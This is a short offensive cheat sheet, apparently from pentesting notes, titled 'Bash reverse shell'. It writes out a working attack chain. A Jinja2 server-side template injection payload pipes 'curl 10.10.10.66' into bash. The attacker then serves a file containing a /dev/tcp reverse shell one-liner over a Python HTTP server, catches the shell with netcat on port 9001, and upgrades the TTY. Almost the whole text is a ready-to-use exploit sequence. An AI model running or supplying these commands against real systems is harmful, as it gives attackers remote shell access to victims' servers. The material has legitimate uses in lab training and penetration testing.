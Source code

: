 # Bash reverse shell
  
1. upload the payload to the target.

This example exploits an SSTI using python:

```
{{ self._TemplateReference__context.joiner.__init__.__globals__.os.popen("curl 10.10.10.66 | bash").read() }}
```

2. setup the handler

```
# mkdir www
# echo "bash -i >& /dev/tcp/10.10.10.66/9001 0>&1 " > index.html
# python3 -m http.server 80 &
# nc -nlvp 9001
# python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl-Z
ssty raw -echo; fg
user@target:~$ export TERM=xterm
user@target:~$ stty rows 26 cols 80
```



